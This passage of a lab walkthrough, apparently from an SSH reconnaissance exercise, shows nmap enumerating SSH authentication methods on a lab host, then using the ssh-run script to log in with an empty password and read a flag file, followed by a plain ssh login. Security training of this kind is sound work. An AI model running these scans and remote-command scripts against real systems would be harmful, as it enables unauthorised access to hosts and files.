 ```bash
root@attackdefense:~# nmap -p 22 --script ssh-auth-methods --script-args="ssh.user=admin" 192.127.171.3
Starting Nmap 7.70 ( https://nmap.org ) at 2024-06-27 06:11 UTC
Nmap scan report for target-1 (192.127.171.3)
Host is up (0.000046s latency).

PORT   STATE SERVICE
22/tcp open  ssh
| ssh-auth-methods: 
|   Supported authentication methods: 
|     publickey
|_    password
MAC Address: 02:42:C0:7F:AB:03 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 2.45 seconds
```

> 8. Fetch the flag from `/home/student/FLAG` by using nmap ssh-run script.

```bash
root@attackdefense:~# nmap --script ssh-run --script-args="ssh-run.cmd=cat /home/student/FLAG, ssh-run.username=student, ssh-run.password=" -p22 192.127.171.3
Starting Nmap 7.70 ( https://nmap.org ) at 2024-06-27 06:22 UTC
NSE: [ssh-run] Authenticated
NSE: [ssh-run] Running command: cat /home/student/FLAG
NSE: [ssh-run] Output of command: e1e3c0c9d409f594afdb18fe9ce0ffec

Nmap scan report for target-1 (192.127.171.3)
Host is up (0.000040s latency).

PORT   STATE SERVICE
22/tcp open  ssh
| ssh-run: 
|   output: 
|_    e1e3c0c9d409f594afdb18fe9ce0ffec\x0D
MAC Address: 02:42:C0:7F:AB:03 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.39 seconds
```

```bash
// the FLAG is inside "student" if connect using ssh

root@attackdefense:~# ssh student@192.127.171.3
Welcome to attack defense ssh recon lab!!
Welcome to Ubuntu 16.04.5 LTS (GNU/Linux 5.4.0-152-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.
```